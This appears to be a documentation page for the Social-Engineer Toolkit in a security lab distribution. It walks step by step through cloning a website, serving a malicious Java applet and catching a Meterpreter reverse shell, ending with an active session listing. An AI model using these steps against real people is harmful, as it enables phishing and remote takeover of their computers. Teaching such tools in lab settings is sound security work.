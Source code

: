 
The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through 
social engineering. SET uses advanced attack techniques and has been featured in many books.

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./setoolkit`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:
    
       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About
       
       99) Exit the Social-Engineer Toolkit
       
    set>

For its incredible power SET is extremely simple to use. No need to 
memorize commands, since SET presents the user with a series of 
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

![](SET_files/SET02.png)

Select `Website Attack Vectors` in the current menu (item #2).

![](SET_files/SET03.png)

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`. 
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

![](SET_files/SET04.png)

Now we can take a look at how we want to build this website.  Our options
are to choose bewteen using existing web templates or to clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Now, set is going to prompt us to decide if we want to use the built in applet, or create our own.  Applet signing can be a bit tricky, and in recent years web browsers have become increasingly picky about what types of applets they run (if they run applets at all).

		1. Make my own self-signed certificate applet.
		2. Use the applet built into SET.
		3. I have my own code signing certificate or applet.

		Enter the number you want to use [1-3]: 

We recommend you select option #2.  

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #1 for now, which is the `Meterpreter Memory Injection`.

       1) Meterpreter Memory Injection (DEFAULT)	This will drop a meterpreter payload through PyInjector

`set:payloads>` **`1`**

Change the port for the listener if you want, or just leave it as the default 443.  If you have something already listening on 443 you'll obviously need to change the port here to something else, ex 8839.

`set:payloads> PORT of the listener [443]:` **`8839`**

Next we will select the type of payload we wish to deliver through memory injection.  I recommend option #1 which is `Windows Meterpreter Reverse TCP`.

		1) Windows Meterpreter Reverse TCP
		2) Windows Meterpreter (Reflective Injection), Reverse HTTPS Stager
		3) Windows Meterpreter (Reflective Injection), Reverse HTTP Stager
		4) Windows Meterpreter (ALL PORTS) Reverse TCP

`set:payload> Enter the number for the payload [meterpreter_reverse_https:` **`1`**

That's it, the listener should now launch.

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If ADHD is configured as expected you should be able to find the payload at this address from the ADHD machine (open a web browser) `http://localhost/html/index.html`.  If you wish to trigger the payload you will want to connect to that page from a windows machine using a browser that will execute the applet (like Firefox or IE).  For this you will likely need the IP address to your ADHD instance which you can retrieve using the command `ifconfig`.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l
     
    Active sessions
    ===============
     
      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post 
modules, and exploits.



